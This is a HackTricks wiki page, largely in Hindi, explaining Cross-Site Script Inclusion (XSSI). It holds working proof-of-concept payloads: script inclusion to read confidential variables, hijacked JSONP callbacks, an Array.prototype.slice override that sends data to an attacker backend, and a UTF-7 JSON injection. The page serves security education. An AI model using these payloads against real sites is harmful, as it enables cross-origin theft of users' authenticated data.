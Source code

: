 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** एक सुरक्षा कमजोरी है जो HTML में `script` टैग की प्रकृति से उत्पन्न होती है। अधिकांश संसाधनों के विपरीत, जो **Same-Origin Policy (SOP)** के अधीन होते हैं, स्क्रिप्ट को विभिन्न डोमेन से शामिल किया जा सकता है। यह व्यवहार विभिन्न सर्वरों पर होस्ट की गई लाइब्रेरी और अन्य संसाधनों के उपयोग को सुविधाजनक बनाने के लिए है, लेकिन यह एक संभावित सुरक्षा जोखिम भी प्रस्तुत करता है।

### Key Characteristics of **XSSI**:
- **SOP का बाईपास**: स्क्रिप्ट **Same-Origin Policy** से छूट प्राप्त करती हैं, जिससे उन्हें विभिन्न डोमेन में शामिल किया जा सकता है।
- **डेटा एक्सपोजर**: एक हमलावर इस व्यवहार का लाभ उठाकर `script` टैग के माध्यम से लोड किए गए डेटा को पढ़ सकता है।
- **डायनामिक JavaScript/JSONP पर प्रभाव**: **XSSI** विशेष रूप से डायनामिक JavaScript या **JSON with Padding (JSONP)** के लिए प्रासंगिक है। ये तकनीकें अक्सर प्रमाणीकरण के लिए "ambient-authority" जानकारी (जैसे कुकीज़) का उपयोग करती हैं। जब किसी अलग होस्ट पर स्क्रिप्ट अनुरोध किया जाता है, तो ये क्रेडेंशियल (जैसे कुकीज़) स्वचालित रूप से अनुरोध में शामिल हो जाते हैं।
- **प्रमाणीकरण टोकन लीक**: यदि एक हमलावर किसी उपयोगकर्ता के ब्राउज़र को एक सर्वर से स्क्रिप्ट अनुरोध करने के लिए धोखा दे सकता है, तो वे इन अनुरोधों में निहित संवेदनशील जानकारी तक पहुँच सकते हैं।

### Types

1. **Static JavaScript** - यह XSSI का पारंपरिक रूप है।
2. **Static JavaScript with Authentication** - यह प्रकार विशिष्ट है क्योंकि इसे एक्सेस करने के लिए प्रमाणीकरण की आवश्यकता होती है।
3. **Dynamic JavaScript** - इसमें वह JavaScript शामिल है जो डायनामिक रूप से सामग्री उत्पन्न करता है।
4. **Non-JavaScript** - यह उन कमजोरियों को संदर्भित करता है जो सीधे JavaScript को शामिल नहीं करती हैं।

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
इस दृष्टिकोण में, निजी जानकारी एक वैश्विक रूप से सुलभ JavaScript फ़ाइल के भीतर एम्बेड की जाती है। हमलावर इन फ़ाइलों की पहचान फ़ाइल पढ़ने, कीवर्ड खोजने, या नियमित अभिव्यक्तियों जैसे तरीकों का उपयोग करके कर सकते हैं। एक बार जब ये फ़ाइलें मिल जाती हैं, तो निजी जानकारी वाली स्क्रिप्ट को दुर्भावनापूर्ण सामग्री में शामिल किया जा सकता है, जिससे संवेदनशील डेटा तक अनधिकृत पहुँच प्राप्त होती है। एक उदाहरण शोषण तकनीक नीचे दिखाई गई है:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI और Authenticated-JavaScript-XSSI
इन प्रकार के XSSI हमलों में संवेदनशील जानकारी को उपयोगकर्ता के अनुरोध के जवाब में स्क्रिप्ट में गतिशील रूप से जोड़ा जाता है। पहचान को कुकीज़ के साथ और बिना अनुरोध भेजकर और प्रतिक्रियाओं की तुलना करके किया जा सकता है। यदि जानकारी भिन्न होती है, तो यह संवेदनशील जानकारी की उपस्थिति का संकेत दे सकता है। इस प्रक्रिया को [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) बर्प एक्सटेंशन जैसे उपकरणों का उपयोग करके स्वचालित किया जा सकता है।

यदि संवेदनशील डेटा एक वैश्विक चर में संग्रहीत है, तो इसे नियमित XSSI में उपयोग किए गए समान तरीकों का उपयोग करके शोषित किया जा सकता है। हालाँकि, यदि संवेदनशील डेटा JSONP प्रतिक्रिया में शामिल है, तो हमलावर जानकारी प्राप्त करने के लिए कॉलबैक फ़ंक्शन को हाईजैक कर सकते हैं। यह या तो वैश्विक वस्तुओं में हेरफेर करके या JSONP प्रतिक्रिया द्वारा निष्पादित होने के लिए एक फ़ंक्शन सेट करके किया जा सकता है, जैसा कि नीचे प्रदर्शित किया गया है:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
ग्लोबल नामस्थान में न रहने वाले वेरिएबल्स के लिए, *prototype tampering* कभी-कभी शोषित किया जा सकता है। यह तकनीक JavaScript के डिज़ाइन का लाभ उठाती है, जहाँ कोड व्याख्या में कॉल की गई प्रॉपर्टी को खोजने के लिए प्रोटोटाइप चेन को पार करना शामिल होता है। कुछ फ़ंक्शंस, जैसे `Array` के `slice` को ओवरराइड करके, हमलावर गैर-ग्लोबल वेरिएबल्स तक पहुँच सकते हैं और उन्हें लीक कर सकते हैं:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Further details on attack vectors can be found in the work of Security Researcher [Sebastian Lekies](https://twitter.com/slekies), who maintains a list of [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Takeshi Terada का शोध XSSI का एक और रूप प्रस्तुत करता है, जहाँ Non-Script फ़ाइलें, जैसे CSV, को `script` टैग में स्रोत के रूप में शामिल करके क्रॉस-ओरिजिन लीक किया जाता है। XSSI के ऐतिहासिक उदाहरण, जैसे Jeremiah Grossman का 2006 का हमला जो एक पूर्ण Google पता पुस्तक पढ़ने के लिए था और Joe Walker का 2007 का JSON डेटा लीक, इन खतरों की गंभीरता को उजागर करते हैं। इसके अतिरिक्त, Gareth Heyes एक हमले के रूपांतर का वर्णन करते हैं जिसमें UTF-7 एन्कोडेड JSON का उपयोग किया जाता है ताकि JSON प्रारूप से बचा जा सके और स्क्रिप्ट को निष्पादित किया जा सके, जो कुछ ब्राउज़रों में प्रभावी है:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
